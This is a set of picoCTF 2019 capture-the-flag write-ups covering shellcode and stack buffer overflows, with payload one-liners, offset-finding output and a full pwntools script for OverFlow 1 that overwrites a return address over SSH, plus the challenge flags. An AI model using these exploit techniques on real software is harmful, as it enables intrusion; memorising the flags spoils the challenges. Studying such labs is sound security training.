

# handy-shellcode
Points: 50

## Problem
>This [program](https://2019shell1.picoctf.com/static/9e6254fb3c561cef02f30e7e90ef2ea7/vuln) executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/handy-shellcode_4_037bd47611d842b565cfa1f378bfd8d9 on the shell server. [Source](handy-shellcode/vuln.c).

### Hint
>How do you execute a program in a command line?

## Solution
Reference 
1. Writeup for [handycode-shell](https://medium.com/@isharaabeythissa/handy-shellcode-picoctf-2019-d1478cd336ae)
2. Build python docker Image - [dockerhub](https://hub.docker.com/_/python)
3. Python Virtual Environment to get requirements.txt - [link](https://medium.com/@boscacci/why-and-how-to-make-a-requirements-txt-f329c685181e)

We will try to use python to obtain the shell from the vulnerable code.

Steps
1. Create `DockerFile` with pwntools
2. Copy the relevant files by by editing the `DockerFile`
3. Build docker image in the folder `docker build -t handy-shellcode .`

Run docker 
1. `docker run -it --rm handy-shellcode` to run code directly
2. `docker run -it --rm -entrypoint=/bin/bash handy-shellcode` to get a shell to the container then run `python code.py`
 

You can use this dockerfile to run other scripts that require pwntools as well. 

### Flag
`picoCTF{h4ndY_d4ndY_sh311c0d3_55c521fe}`

- - -

# practice-run-1
Points: 50

## Problem
>You're going to need to know how to run programs if you're going to get out of here. Navigate to /problems/practice-run-1_0_62b61488e896645ebff9b6c97d0e775e on the shell server and run this [program](https://2019shell1.picoctf.com/static/6eba3b66e7a2b786c6c9769711d85663/run_this) to receive a flag.

### Hint
>How do you execute a program in a command line?

## Solution
1. Use picoCTF shell on the website. Login using your picoCTF credentials
2. cd /problems/practice-run-1_0_62b61488e896645ebff9b6c97d0e775e
3. `./run_this` will do

### Flag
`picoCTF{g3t_r3adY_2_r3v3r53}`

- - -

# OverFlow 0
Points: 100

## Problem
>This should be easy. Overflow the correct buffer in this [program](https://2019shell1.picoctf.com/static/1730bdc8ccd557c8ff20d1c28a5c3dbe/vuln) and get a flag. Its also found in /problems/overflow-0_4_e130f4df1710865981d50f778a8059f7 on the shell server. [Source](https://2019shell1.picoctf.com/static/1730bdc8ccd557c8ff20d1c28a5c3dbe/vuln.c).

### Hint
> Find a way to trigger the flag to print

> If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.

## Solution

The vulnerable code is
```c
void vuln(char *input){
  char buf[128];
  strcpy(buf, input);
}
```

There is only 128 char for the buffer. Any more will overwrite the stack and cause buffer overflow. 

TODO: Learn how to use GDB to see low level stack and understand how the stack is arranged

`./vuln $(python -c "from pwn import *; print 'a'*133")`

### Flag
`picoCTF{3asY_P3a5y2f814ddc}`

- - -


# OverFlow 1
Points: 100

## Problem
>You beat the first overflow challenge. Now overflow the buffer and change the return address to the flag function in this [program](https://2019shell1.picoctf.com/static/8b7521756bddb2cce5c14fd2b60cd354/vuln)? You can find it in /problems/overflow-1_3_f08d494c74b95dae41bff71c2a6cf389 on the shell server. [Source](https://2019shell1.picoctf.com/static/8b7521756bddb2cce5c14fd2b60cd354/vuln).

### Hint
> Take control that return address

> Make sure your address is in Little Endian.

## Solution

### Summary
1. Find out how much offset will overflow the buffer
2. Where to set the return address to
3. Write payload to remote shell 

### Details
#### Step 1. Offset
We need to know how many bytes to be able to overflow to the return address. Using a function in pwntools library called `cyclic` we will generate a string to feed into the program to determine where the overflow happens.

```python
python3 -c "from pwn import *;print(cyclic(100))" | ./vuln
```

Output
```
Give me a string and lets see what happens: 
Woah, were jumping to 0x61746161 !
Segmentation fault
```

So now after overflowing, we can tell which set of bytes the return address is in and how many we need to overflow it. Using `cyclic_find`, we can determine which offset is the different value in.

```bash
python3 -c "from pwn import *;print(cyclic_find(0x61746161, endian='little'))"
```
Output
```
74
```

Using the offset generated from `cyclic_find`, put it back into the program and test the value after that is over written by whatever you input.

```bash
python3 -c "from pwn import *;print(cyclic(74)+b'abcd')" | ./vuln
```

Output
```
Give me a string and lets see what happens: 
Woah, were jumping to 0x64636261 !
Segmentation fault
```

Alternative: cyclic_find offset is not the same as the actual offset. The actual offset can be found by this other way.

```shell
msf-pattern_create -l 100 | ./vuln

msf-pattern_offset -q 0x63413563
```

The actual offset is `76`

#### Step 2. Finding Return Address
First we need to find out which part of the code we need to get the return address to. Referring to the code below, we need to look for the flag() function.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);

  printf("Woah, were jumping to 0x%x !\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Give me a string and lets see what happens: ");
  vuln();
  return 0;
}
```

Using pwnlib ELF, we can determine where the address of the function is loaded. A simple example is shown below
```python
from pwn import *
vuln = ELF('./vuln')
flag_addr = p32(vuln.symbols['flag'])
print(flag_addr)
```

or in shell one liner

```bash
python3 -c "from pwn import *; vuln=ELF('./vuln');flag_addr=p32(vuln.symbols['flag']);print(flag_addr);"
```

Output
```
[*] '/home/kali/Desktop/picoctf2019/overflow1/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
b'\xe6\x85\x04\x08'
```

Note that it is in little endian format, so read from right to left. 

The address of flag will be `0x080485e6`

#### Step 3. Writing to remote shell
Now we need to write the address into picoctf shell. Then based on the output of vuln, we can send the data after receiving ':'.

```python
from pwn import *
s = ssh(host='2019shell1.picoctf.com', user='picoctf2019 username', password='picoctf2019 password')
sh = s.process('vuln', cwd='/problems/overflow-1_3_f08d494c74b95dae41bff71c2a6cf389')

sh.sendlineafter(':', 'i can write anything i want to see the output')
sh.interactive()
```
#### Step 4. Putting it all together
Now that we have all the pieces, we put them all together.

Note: Change user, password and cwd to your own listed in picoctf2019

```python
from pwn import *
# To test locally
'''
stdout = process.PTY
stdin = process.PTY

sh = process('./vuln', stdout=stdout, stdin=stdin)
'''
# Remote shell
s = ssh(host='2019shell1.picoctf.com', user='picoctf2019 username', password='picoctf2019 password')
sh = s.process('vuln', cwd='/problems/overflow-1_3_f08d494c74b95dae41bff71c2a6cf389')

# get offset
cyc_offset = cyclic_find(0x61746161)

# get ret addr
vuln = ELF('./vuln')
flag_addr = p32(vuln.symbols['flag'])

# create payload
payload = cyclic(cyc_offset+2) + flag_addr

# send payload
sh.sendlineafter(':', payload)
sh.interactive()
```

Why +2? To make the offset `76` we found in part 2.

Resources: 

[pwnlib ELF](http://docs.pwntools.com/en/stable/elf/elf.html#example-usage)

### Flag
`picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5a21b59fb}`

- - -


# Ghost_Diary
Points: 500

## Problem
>Try writing in this [ghost diary](https://2019shell1.picoctf.com/static/39f97f5133752972b433b6f94013dd74/ghostdiary). Its also found in /problems/ghost-diary_2_e8bb7752718f21f9419b1c475a2d06b4 on the shell server.

### Hint
>How do you execute a program in a command line?

## Solution
Solution here

### Flag
`Flag`

- - -